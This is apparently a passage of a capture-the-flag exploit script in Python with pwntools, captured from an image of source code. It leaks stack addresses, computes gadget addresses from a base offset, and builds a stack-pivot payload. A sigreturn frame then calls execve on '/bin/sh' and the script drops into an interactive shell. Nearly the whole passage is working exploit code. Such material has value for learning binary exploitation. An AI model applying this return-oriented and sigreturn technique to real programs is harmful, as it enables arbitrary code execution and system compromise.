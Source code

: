 ```

    addrs = []
    for i in range(22, 45):
        data = p.recv()
        if i == 32 or i == 40:
            print(f"FOR I = {i}")
            print(data)
            addrs.append(extract(data))
        p.sendline(b"a"*(i))

    print(f"RECV # 1 {p.recv()}")
    print(addrs)

    #gdb.attach(p, gdbscript='''
    #b read
    #''')
    try:
        main_offset = 0x443
        base_addr = addrs[1] - 0x443
        leave_ret = base_addr + 0x0000000000000367
        set_read = base_addr + 0x377
        syscall_addr = base_addr + 0x364
        set_rax = base_addr + 0x32e

        print(f"leave ret gadget : {hex(leave_ret)}")
        print(f"set read gadget : {hex(set_read)}")
        print(f"X X X X X X = {x}")
        fake_rbp_1 = addrs[0] - x
        print(f"base rbp : {hex(fake_rbp_1)}")
        #gdb.attach(p, gdbscript='q')
        payload = p64(fake_rbp_1+32) + p64(set_read) + p64(fake_rbp_1+15) + b"\x40\x01\x00\x00" + b"\x00\x00\x00\x00" + p64(fake_rbp_1) + bytes([p64(leave_ret)[0]]) + bytes([p64(leave_ret)[1]]) + bytes([p64(leave_ret)[2]]) + bytes([p64(leave_ret)[3]]) + bytes([p64(leave_ret)[4]]) + bytes([p64(leave_ret)[5]])
        print(f"[+] Send payload of length {hex(len(payload))}")
    
    except:
        continue
    
    #p.sendline(payload)
    #gdb.attach(p, gdbscript='b read')
    #print(f"RECV # 2 {p.recv()}")    
    frame = SigreturnFrame()
    frame.rax = 59                      # syscall number for execve
    frame.rdi = fake_rbp_1+296          # pointer to "/bin/sh"
    frame.rsi = 0
    frame.rdx = 0
    frame.rip = syscall_addr            # address of `syscall` instruction
    frame.rsp = fake_rbp_1         # stack after syscall (can be just garbage)
    try:
        payload = p64(fake_rbp_1+32) + p64(set_read) + p64(fake_rbp_1+16) + b"\x40\x01\x00\x00" + b"\x00\x00\x00\x00" + p64(fake_rbp_1) + bytes([p64(leave_ret)[0]]) + bytes([p64(leave_ret)[1]]) + bytes([p64(leave_ret)[2]]) + bytes([p64(leave_ret)[3]]) + bytes([p64(leave_ret)[4]]) + bytes([p64(leave_ret)[5]])
        print(f"[+] Send payload of length {hex(len(payload))}")
        payload += p64(fake_rbp_1+40) + p64(set_rax) + p64(15) + p64(syscall_addr) + bytes(frame) + b"/bin/sh\x00"
        #payload += b"\x00"*(0x140-len(payload)-3)
        p.sendline(payload)
    except:
        pass    
    p.interactive()
    p.close()
```